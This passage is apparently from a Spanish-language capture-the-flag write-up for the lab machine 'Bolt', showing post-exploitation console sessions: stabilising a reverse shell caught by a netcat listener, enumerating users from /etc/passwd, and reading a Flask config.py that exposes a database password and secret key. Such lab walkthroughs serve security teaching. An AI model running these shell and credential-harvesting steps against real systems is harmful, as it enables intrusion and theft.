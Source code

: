 ```console
www-data@bolt:~/demo$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@bolt:~/demo$ ^Z
zsh: suspended  nc -nlvp 9999
p3ntest1ng:~$ stty raw -echo; fg
[1]  + continued  nc -nlvp 9999
                               reset xterm
www-data@bolt:~/demo$ export TERM=xterm
www-data@bolt:~/demo$ export SHELL=bash
www-data@bolt:~/demo$ stty rows 43 columns 189
```

Vamos a comprobar qué usuarios existen en el sistema y si podemos listar sus directorios:

```console
www-data@bolt:~/demo$ cat /etc/passwd | grep -v "false\|nologin" | tr ":" " " | column -t
root   x  0     0      root   /root        /bin/bash
sync   x  4     65534  sync   /bin         /bin/sync
eddie  x  1000  1000   Eddie  Johnson,,,   /home/eddie  /bin/bash
clark  x  1001  1001   Clark  Griswold,,,  /home/clark  /bin/bash
www-data@bolt:~/demo$ ls -la /home/eddie
ls: cannot open directory '/home/eddie': Permission denied
www-data@bolt:~/demo$ ls -la /home/clark
ls: cannot open directory '/home/clark': Permission denied
```

Pues no tenemos permiso, veamos qué tenemos en nuestro directorio actual.

```console
www-data@bolt:~/demo$ ls -la
total 36
drwxr-xr-x 5 www-data www-data 4096 Aug  4  2021 .
drwxr-xr-x 6 root     root     4096 Aug  4  2021 ..
-rw-r--r-- 1 www-data www-data 6399 Mar  6  2021 app.py
-rw-r--r-- 1 www-data www-data  420 Mar  4  2021 config.py
drwxr-xr-x 2 www-data www-data 4096 Mar  6  2021 __pycache__
drwxr-xr-x 3 www-data www-data 4096 Mar  4  2021 static
drwxrwxr-x 6 www-data www-data 4096 Mar  5  2021 templates
-rw-r--r-- 1 www-data www-data   62 Mar  4  2021 wsgi.py
```

Interesante, tenemos un archivo **`config.py`** veamos qué contiene.

```console
www-data@bolt:~/demo$ cat config.py 
"""Flask Configuration"""
#SQLALCHEMY_DATABASE_URI = 'sqlite:///database.db'
SQLALCHEMY_DATABASE_URI = 'mysql://bolt_dba:dXUUHSW9vBpH5qRB@localhost/boltmail'
SQLALCHEMY_TRACK_MODIFICATIONS = True
SECRET_KEY = 'kreepandcybergeek'
MAIL_SERVER = 'localhost'
MAIL_PORT = 25
MAIL_USE_TLS = False
MAIL_USE_SSL = False
#MAIL_DEBUG = app.debug
MAIL_USERNAME = None
MAIL_PASSWORD = None
DEFAULT_MAIL_SENDER = 'support@bolt.htb'
```
